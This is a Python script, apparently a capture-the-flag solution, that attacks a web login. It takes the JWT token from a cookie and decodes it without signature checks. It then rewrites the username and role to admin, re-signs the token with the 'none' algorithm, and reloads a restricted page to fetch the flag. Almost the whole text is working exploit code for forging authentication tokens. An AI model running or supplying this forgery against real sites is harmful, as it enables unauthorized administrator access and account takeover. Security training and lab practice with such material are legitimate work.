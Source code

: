 ```py
    session_requests = requests.session() # by using session(), we are able to handle http cookies, which is used to save the jwt token
    login_result = session_requests.post(options.url, data = loginparams, headers = headers) # send a post request to login the website

    if login_result.status_code == 200:
        # successfully login the website
        private_page_url = login_result.url # now the user should be redirected to a restricted page, which has different contents for different roles

        for cookie in session_requests.cookies:
            if cookie.name == "dG9rZW4":
                jwttoken = cookie.value # extract the jwt token string

                logging.info("successfully detect a jwt token: %s\n"%jwttoken)



                header = jwt.get_unverified_header(jwttoken) # get the jwt token header, figure out which algorithm the web server is using
                logging.info("jwt token header: %s\n"%header)
                payload = jwt.decode(jwttoken, options={
                                     "verify_signature": False})
                # decode the jwo token payload, the user role information is claimed in the payload

                logging.info("jwt token payload: %s\n"%payload)

                payload["username"] = "CSCAdmin"
                payload["access"] = "admin"
                fake_jwttoken = jwt.encode(payload, None, algorithm="none") # update the user role and regenerate the jwt token using "none" algorithm
                logging.info("regenerate a jwt token using 'none' algorithm and changing the role into 'admin'")
                logging.info(fake_jwttoken + "\n")
                cookie.value = fake_jwttoken
                break

        flag_page = session_requests.get(private_page_url, headers = headers) # let's visit the restricted page again

        logging.info("\n" + flag_page.text + "\n") # now the webpage should contain the flag information

        logging.info("Yeah, now we successfully login as admin!")
    else:
        logging.error("Failed to login the website, please check the options.")
        sys.exit(1)

if __name__ == '__main__':
    logging.basicConfig(level=logging.INFO)
    main()
```
<br>
